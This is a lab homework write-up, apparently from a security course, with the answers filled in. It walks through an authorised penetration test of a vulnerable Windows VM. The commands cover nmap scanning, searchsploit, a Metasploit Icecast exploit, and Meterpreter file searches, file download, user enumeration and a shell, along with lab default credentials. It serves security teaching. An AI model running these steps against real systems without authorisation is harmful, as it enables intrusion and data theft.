 # Homework: Penetration Test Engagement

In this activity, you will play the role of an independent penetration tester hired by GoodCorp Inc. to perform security tests against their CEO’s workstation.


- The CEO claims to have passwords that are long and complex and therefore unhackable.
- You are tasked with gaining access to the CEO's computer and using a Meterpreter session to search for two files that contain the strings recipe and seceretfile.
- The deliverable for this engagement will be in the form of a report labeled Report.docx.

### Setup

- Before you begin, we'll need to start the Icecast server to emulate the CEO's computer. 
  - Log onto the DVW10 machine (credentials IEUser:Passw0rd!) and wait for the Icecast application to popup.
  - Then click Start Server.




### Reminders


- A penetration tester's job is not just to gain access and find a file. Pentesters need to find all vulnerabilities, and document and report them to the client. It's quite possible that the CEO's workstation has multiple vulnerabilities.

-  If a specific exploit doesn't work, that doesn't necessarily mean that the target service isn't vulnerable. It's possible that something could be wrong with the exploit script itself. Remember, not all exploit scripts are right for every situation.


### Scope


- The scope of this engagement is limited to the CEO's workstation only. You are not permitted to scan any other IP addresses or exploit anything other than the CEO's IP address.


- The CEO has a busy schedule and cannot have the computer offline for an extended period of time. Therefore, denial of service and brute force attacks are prohibited.


- After you gain access to the CEO’s computer, you may read and access any file, but you cannot delete them. Nor are you allowed to make any configurations changes to the computer.


- Since you've already been provided access to the network, OSINT won't be necessary.

### Lab Environment
For this week's homework, please use the following VM setup:

- Attacking machine: Kali Linux root:toor

- Target machine: DVW10 IEUser:Passw0rd!


**NOTE:** You will need to login to the DVW10 VM and start the icecast service prior to beginning this activity using the following procedure:

- After logging into DVW10, type "icecast" in the Cortana search box and hit Enter.
- The icecast application will launch.
- Click on Start Server.
- You are now ready to being the activity.


### Deliverable
Once you complete this assignment, submit your findings in the following document:

[Report.docx]


### Instructions
You've been provided full access to the network and are getting ping responses from the CEO’s workstation.


1. Perform a service and version scan using Nmap to determine which services are up and running:

  - Run the Nmap command that performs a service and version scan against the target.
  
    > Answer: nmap -sV 192.168.0.20


2. From the previous step, we see that the Icecast service is running. Let's start by attacking that service. Search for any Icecast exploits:
  - Run the SearchSploit commands to show available Icecast exploits.

    > Answer: searchsploit icecast


3. Now that we know which exploits are available to us, let's start Metasploit:
  - Run the command that starts Metasploit:

    > Answer: msfconsole


4. Search for the Icecast module and load it for use.
  - Run the command to search for the Icecast module:

    > Answer: search icecast



  - Run the command to use the Icecast module:
   **Note:** Instead of copying the entire path to the module, you can use the number in front of it.

    > Answer: use 0





5. Set the RHOST to the target machine.


  - Run the command that sets the RHOST:

    > Answer: set RHOST 192.168.0.20





6. Run the Icecast exploit.
  - Run the command that runs the Icecast exploit.

    > Answer: exploit



  - Run the command that performs a search for the secretfile.txt on the target.

    > Answer: search -f *secretfile.txt


7. You should now have a Meterpreter session open.


  - Run the command to performs a search for the recipe.txt on the target:

    > Answer: search -f *recipe.txt



  - **Bonus:** Run the command that exfiltrates the recipe*.txt file:

    > Answer: download C:\Users\IEUser\Documents\Drinks.recipe.txt





8. You can also use Meterpreter's local exploit suggester to find possible exploits.


  - **Note:** The exploit suggester is just that: a suggestion. Keep in mind that the listed suggestions may not include all available exploits.




### Bonus
A. Run a Meterpreter post script that enumerates all logged on users.

  > Answer: run post/windows/gather/enum_logged_on_users

B. Open a Meterpreter shell.

  > Answer: shell

C. Run the command that displays the target's computer system information:

  > Answer: sysinfo
